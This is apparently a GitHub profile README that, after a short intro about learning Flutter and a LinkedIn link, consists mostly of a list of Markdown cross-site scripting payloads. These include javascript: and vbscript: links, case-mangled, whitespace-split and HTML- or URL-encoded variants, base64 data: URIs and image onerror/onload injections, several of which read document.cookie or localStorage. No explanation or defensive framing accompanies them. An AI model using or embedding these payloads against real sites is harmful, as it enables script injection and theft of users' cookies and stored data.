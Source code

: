 ### Hi there 👋

- 🌱 I’m currently learning Flutter...

More Details, see [LinkedIn](https://www.linkedin.com/in/prachya-saechua/) 

hello [hack](javascript:javascript:alert('xss'))
```javascript
> hello <a name="n"
> href="javascript:alert('xss')">*you*</a>
```
%3Ca+href%3D%22%01java%03script%3Aconfirm%28document.domain%29%22%3EClick+to+execute%3Ca%3E%0D%0A

[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
![Escape SRC - onerror]("onerror="alert('ImageOnError'))
[XSS](javascript:prompt(document.cookie))
[XSS](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS]: (javascript:prompt(document.cookie))
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0aprompt(1))
[XSS](javascript://%0d%0aprompt(1);com)
[XSS](javascript:window.onerror=alert;throw%20document.cookie)
[XSS](javascript://%0d%0awindow.onerror=alert;throw%20document.cookie)
[XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)
[XSS](javascript:alert&#65534;(1&#41;)
[XSS](javascript:confirm(1)
[XSS](javascript://www.google.com%0Aprompt(1))
[XSS](javascript://%0d%0aconfirm(1);com)
[XSS](javascript:window.onerror=confirm;throw%201)
[XSS](�javascript:alert(document.domain&#41;)
![XSS](javascript:prompt(document.cookie))\
![XSS](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\

![XSS'"`onerror=prompt(document.cookie)](x)

![XSS'"`onerror=prompt(document.cookie)](javascript://%0d%0aprompt(1);com)\

![Escape SRC - onerror]("onerror="alert('ImageOnError'))

![Escape SRC - onerror](javascript:onerror="alert('ImageOnError'))

<!--
**blackb1rd/blackb1rd** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
